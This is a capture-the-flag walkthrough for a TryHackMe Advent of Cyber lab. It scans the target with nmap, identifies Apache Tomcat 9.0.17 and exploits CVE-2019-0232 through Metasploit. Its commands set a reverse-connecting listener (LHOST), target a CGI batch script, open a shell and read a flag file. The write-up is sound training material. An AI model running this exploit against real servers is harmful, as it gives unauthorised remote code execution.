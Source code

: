 # **_aventofcyber2 Day 12 (exploit)_**

    https://tryhackme.com/room/adventofcyber2
------------------------------------------------------------
![img.png](Images/img.png)

`Do simple nmap scan `

    nmap -sV -A {machine IP} -Pn

![img_1.png](Images/img_1.png)

`we got tons of info`
`we can see on port 8080 webserver is running and also we got version number `

![img_2.png](Images/img_2.png)

    9.0.17
------------------------------------------------------------
`Let's visit webserver`
`{machine IP:8080}`

![img_3.png](Images/img_3.png)

`Let's see exploit for Apache Tomcat on exploit-db`

![img_4.png](Images/img_4.png)

`we got our answer` 

![img_5.png](Images/img_5.png)

    CVE-2019-0232
------------------------------------------------------------
`now open Metasploit`

    msfconsole 

`and search for the the exploit with CVE number`

    search 2019-0232

![img_6.png](Images/img_6.png)

`type (use 0) `

`now set RHOSTS and LHOST and targeturi `

    set RHOSTS {machine IP}
    set LHOST tun0
    set target uri /cgi-bin/elfwhacker.bat
    run

![img_7.png](Images/img_7.png)

`you should know why i used cgi-bin path if you have went through theory`

![img_8.png](Images/img_8.png)

`we did this question`

------------------------------------------------------
`now type shell command on msf terminal `

`type dir to see directories as this is windows machine`

![img_9.png](Images/img_9.png)

`as you can see there is flag1.txt file`

`now type below command to read it`
    
    type flag1.txt

![img_10.png](Images/img_10.png)

`we also got out last answer`

![img_11.png](Images/img_11.png)

---------------------------------------------------------------

_**Thank You**_